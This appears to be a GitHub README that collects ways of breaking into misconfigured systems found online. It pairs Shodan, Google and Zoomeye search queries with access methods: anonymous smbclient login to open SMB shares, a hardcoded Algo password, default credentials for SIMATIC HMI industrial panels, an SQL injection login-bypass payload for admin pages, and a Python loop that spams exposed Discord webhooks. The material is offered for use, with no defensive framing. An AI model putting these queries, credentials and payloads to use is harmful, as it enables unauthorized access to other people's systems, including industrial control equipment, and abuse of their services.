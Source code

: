 # SMB server misconfiguration

### installing smbclient
Debian: `apt install samba`

Arch: `pacman -S smbclient`

### login in to misconfigurated server
`smbclient -N \\\\{address}\\Users`

### Shodan query
[`port:445 "Authentication: disabled" "Users"`](https://www.shodan.io/search?query=port%3A445+%22Authentication%3A+disabled%22+%22Users%22)

# Algo hardcoded password

### Login
Default password: _`algo`_

### Shodan query
[`http.favicon.hash:-1024590169`](https://www.shodan.io/search?query=http.favicon.hash%3A-1024590169)

# SIMATIC HMI_Panel default credentials

### Login
Default username: _`Administrator`_

Default password: _`100`_

### Google dork
[`intitle:”Miniweb Start Page”`](https://www.google.com/search?q=intitle%3A%E2%80%9DMiniweb+Start+Page%E2%80%9D)

# Admin-login panels vulnerable to SQLi
Payload: _`1'or'1'=1'`_

### Google dork
[`intitle:"Admin login" inurl:/admin/index.php`](https://www.google.com/search?q=intitle%3A%22Admin+login%22+inurl%3A%2Fadmin%2Findex.php)

# Find exposed discord webhooks

Simplest way to spam into a webhook in python:
```py
while True: __import__("requests").post("<webhook>", data={"content":"@here hey"})
```

### Zoomeye dork
[`"https://discord.com/api/webhooks/"`](https://www.zoomeye.org/searchResult?q=%22https%5C%3A%2F%2Fdiscord.com%2Fapi%2Fwebhooks%2F%22)

#### But... Can i automate this?
The answer is obviously yes, i made [this](https://github.com/komodoooo/discord-stuff/blob/main/src/zw.py) script.
